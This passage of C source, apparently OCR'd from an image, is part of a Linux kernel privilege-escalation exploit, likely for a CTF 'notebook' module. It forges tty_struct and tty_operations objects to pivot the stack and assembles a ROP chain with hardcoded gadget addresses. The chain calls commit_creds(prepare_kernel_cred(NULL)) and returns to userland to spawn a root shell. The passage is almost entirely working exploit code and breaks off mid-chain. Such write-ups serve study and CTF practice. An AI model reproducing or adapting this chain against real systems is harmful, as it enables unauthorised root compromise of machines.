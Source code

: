 ```c
    printf("\033[1;32mprepare_kernel_cred: %p.\n\033[m", prepare_kernel_cred);
    printf("\033[1;32mswapgs_restore_regs_and_return_to_usermode: %p.\n\033[m", swapgs_restore_regs_and_return_to_usermode);

    printf("\033[1;34mReady to trigger the first stack pivoting.\n\033[m");
    noteedit(fake_ttyops_idx, sizeof(struct tty_operations), page);
    noteedit(fake_stack_idx, 0x100, page);
    notebook_msg(true);

    char original_tty[TTY_STRUCT_SIZE];
    read(fd, original_tty, hit_idx);
    printf("\033[1;34mUnchanged tty_struct content:\n\033[m");
    print_binary(original_tty, TTY_STRUCT_SIZE);

    char fake_tty[TTY_STRUCT_SIZE];
    memcpy(fake_tty, original_tty, TTY_STRUCT_SIZE);

    size_t fake_tty_ops[0x200];
    memset(fake_tty_ops, 0, sizeof fake_tty_ops);
    size_t push_rdi_pop_rsp_pop_rbp_add_rax_rdx_ret = 0xffffffff81238d50;
    ((struct tty_operations*)fake_tty_ops)->write = (int (*)(struct tty_struct *, const unsigned char *, int)) (
            push_rdi_pop_rsp_pop_rbp_add_rax_rdx_ret + offset);
    printf("\033[1;34mfake_tty_operations edited, write pointer: %p\n\033[m", ((struct tty_operations*)fake_tty_ops)->write);
    printf("\033[1;35mFirst gadget:\n"
           "\tpush rdi;\n"
           "\tpop rsp;\n"
           "\tpop rbp;\n"
           "\tadd rax, rdx;\n"
           "\tret;\n"
           "This gadget is used to migrate rsp to tty_struct in note #%d.\n\033[m", hit_idx);

    size_t pop_rbx_pop_rbp_ret = 0xffffffff81002141;
    size_t mov_rsp_rbp_pop_rbp_ret = 0xffffffff8107875c;
    ((size_t*)fake_tty)[1] = pop_rbx_pop_rbp_ret + offset;
    ((size_t*)fake_tty)[3] = (size_t) notebook_msg(false)[fake_ttyops_idx].note;
    ((size_t*)fake_tty)[4] = mov_rsp_rbp_pop_rbp_ret + offset;

    size_t pop_rbp_ret = 0xffffffff81000367;
    ((size_t*)fake_tty_ops)[1] = pop_rbp_ret + offset;
    ((size_t*)fake_tty_ops)[2] = (size_t) notebook_msg(false)[fake_stack_idx].note;
    ((size_t*)fake_tty_ops)[3] = mov_rsp_rbp_pop_rbp_ret + offset;

    size_t pop_rdi_ret = 0xffffffff81007115;
    size_t mov_rdi_rax_pop_rbp_ret = 0xffffffff81045833;
    size_t rop[0x60] = {0};
    int ropidx = 0;
    rop[ropidx++] = 0xdeadbeefdeadbeef;     // for pop rbp
    rop[ropidx++] = pop_rdi_ret + offset;
    rop[ropidx++] = 0;
    rop[ropidx++] = (size_t)prepare_kernel_cred;    // prepare_kernel_cred(NULL);
    rop[ropidx++] = mov_rdi_rax_pop_rbp_ret + offset;
    rop[ropidx++] = 0xdeadbeefdeadbeef;
    rop[ropidx++] = (size_t)commit_creds;           // commit_creds(prepare_kernel_cred(NULL));
    rop[ropidx++] = (size_t)swapgs_restore_regs_and_return_to_usermode + 22;
    rop[ropidx++] = 0;
    rop[ropidx++] = 0;
    rop[ropidx++] = (size_t)&getShell;
    rop[ropidx++] = user_cs;
    rop[ropidx++] = user_rflags;
    rop[ropidx++] = user_sp;
    rop[ropidx++] = user_ss;
```